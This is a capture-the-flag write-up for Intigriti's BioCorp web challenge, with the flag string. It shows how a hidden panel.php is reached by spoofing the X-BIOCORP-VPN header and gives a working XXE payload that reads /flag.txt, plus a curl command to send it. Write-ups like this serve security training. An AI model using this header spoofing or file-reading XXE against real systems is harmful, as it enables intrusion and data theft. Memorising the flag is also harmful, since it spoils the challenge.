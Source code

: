 # Description
BioCorp contacted us with some concerns about the security of their network. Specifically, they want to make sure they've decoupled any dangerous functionality from the public facing website. Could you give it a quick review?

[https://biocorp.ctf.intigriti.io](https://biocorp.ctf.intigriti.io/)


# Flag
INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn}

# Analysis 
![[Pasted image 20241116082304.png | 600]]
Upon visiting the site you are greeted with a normal index page. The site features 4 pages that aren't relevant to this challenge as you have the source code of the web app to find the vulnerability within it. 

Inspecting the source code you will find a page that isn't listed on the website which is the panel.php page 
![[Pasted image 20241116082522.png]]

Now you need to understand and analyze the code, I just have gpt summarize it for me but upon first look we can see that there's a check for a header that needs to be passed to gain access to the site in the code:
![[Pasted image 20241116082730.png]]
From this code we can tell that you need the header to gain access to the page, so you need to edit the request and add the header with the ip address that has been specified within the code like so:
![[Pasted image 20241116110608.png]]

Without the header you will be prompted with an access denied page:
![[Pasted image 20241116110701.png]]

Next, within the source code there is a post request that sends xml data to load content from a file document. This is probably the injection point at which you need a xml injection for xxe injection to read the /flag.txt . The code that shows you this is this one:
![[Pasted image 20241116111024.png]]

So now that we know where is our injection point we can make our exploit!

# Solution
The payload that will be used following the source code requirements:
```
<?xml version="1.0"?> <!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]> <root> <temperature>&xxe;</temperature> <pressure>&xxe;</pressure> <control_rods>&xxe;</control_rods> </root>
```

Save the payload to a file like payload.xml and we will use this curl command to send it to the website:
```
curl -X POST -H "X-BIOCORP-VPN: 80.187.61.102" -H "Content-Type: application/xml" -d @payload.xml https://biocorp.ctf.intigriti.io/panel.php
```

After sending the payload the temperature, pressure and control rod values will change to the flag like so:
![[Pasted image 20241116111541.png]]



**IMPORTANT: Do not forget to add the "X-BIOCORP-VPN:" header still otherwise you will get the access denied page!**

#L337upCTF2024
